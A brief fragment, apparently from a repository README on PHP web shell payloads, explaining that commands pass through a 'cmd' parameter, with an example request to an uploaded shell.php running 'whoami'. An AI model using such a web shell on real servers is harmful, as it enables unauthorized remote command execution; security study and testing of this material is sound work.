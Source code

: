 These are parameter based payloads that pass commands through `cmd` parameter.<br> Using GET method one can pass commands through a query like this:<br>
http://target.com/uploads/shell.php?cmd=whoami
